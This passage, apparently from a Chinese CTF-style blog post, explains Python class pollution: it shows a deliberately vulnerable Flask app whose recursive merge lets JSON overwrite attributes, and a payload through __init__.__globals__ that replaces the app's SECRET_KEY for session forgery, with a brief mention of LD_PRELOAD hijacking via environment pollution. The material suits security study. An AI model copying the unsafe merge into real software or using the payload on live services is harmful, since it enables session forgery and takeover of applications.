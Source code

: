 这个是打php的ld\_preload  
然后如果说他是利用python来写的题目的话，我们就可以通过污染环境变量来打ld\_preload劫持，有些时候说不定还能打出非预期，嘻嘻。

### flask特定属性污染

#### 密钥替换

这里直接贴代码吧，可以造成任意session伪造甚至改变pin码

```python
from flask import Flask,request
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "[+]Config:%s"%(app.config['SECRET_KEY'])

app.run(host="0.0.0.0")
```

污染链

```python
{
    "__init__" : {
        "__globals__" : {
            "app" : {
                "config" : {
                    "SECRET_KEY" :"Polluted~"
                }
            }
        }
    }
}
```
